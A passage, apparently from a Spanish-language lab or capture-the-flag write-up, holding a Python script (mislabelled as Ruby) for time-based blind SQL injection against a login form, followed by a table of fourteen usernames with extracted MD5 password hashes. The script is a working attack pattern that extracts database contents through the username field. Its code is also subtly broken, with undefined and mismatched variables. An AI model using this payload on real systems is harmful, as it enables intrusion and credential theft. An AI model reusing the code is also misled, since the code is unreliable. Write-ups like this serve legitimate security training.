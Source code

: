 ```ruby
        for posición in range(0, 32):
            for palabras in caracter:
                
                urllib3.disable_warnings()

				payload = "if(select substring(username,%d,1) from users order by id offset %d rows fetch next 1 row only)='%c' waitfor delay'0:0:5'--" % (posición, columna, palabras)
                
                post_data = {
                    'username': "admin'%s" % (payload),
                    'password': 'admin'
                }

                p1.status(post_data['username'])
                
                
                time.start = time.time()
                r = requests.post(ip_address, data=post_data, verify=False)
                time.end = time.time()

                if time.end - time.start > 5:
                    
                    Contenido += palabra
                    
                    p2.status(Contenido)
                    
                    break
        Contenido += ', '

if __name__ == "__main__":
    sqlinyeccion()
```
>Cambiando dentro de **'payload'** el 'username' por 'password', obtenemos las contraseñas como hash md5

Sabiendo los nombre de usuarios, pasamos a revelar las contraseñas

|username|password|
|:--|:--|
| James          | c660060492d9edcaa8332d89c99c9239      |
| Theodore       | 925e5408ecb67aea449373d668b7359e      |
| Samantha       | 083ffae904143c4796e464dac33c1f7d      |
| Lauren         | 08344b85b329d7efd611b7a7743e8a09      |
| William        | d62be0dc82071bccc1322d64ec5b6c51      |
| Sabrina        | f87d3c0d6c8fd686aacc6627f1f493a5      |
| Robert         | f03b910e2bd0313a23fdd7575f34a694      |
| Thane          | 3577c47eb1e12c8ba021611e1280753c      |
| Carmon         | 35394484d89fcfdb3c5e447fe749d213      |
| Barry          | 54c88b2dbd7b1a84012fabc1a4c73415      |
| Oliver         | fd78db29173a5cf701bd69027cb9bf6b      |
| Michelle       | b83439b16f844bd6ffe35c02fe21b3c0      |
| Gloria         | 0cfaaaafb559f081df2befbe66686de0      |
| Victoria       | b22abb47a02b52d5dfa27fb0b534f693      |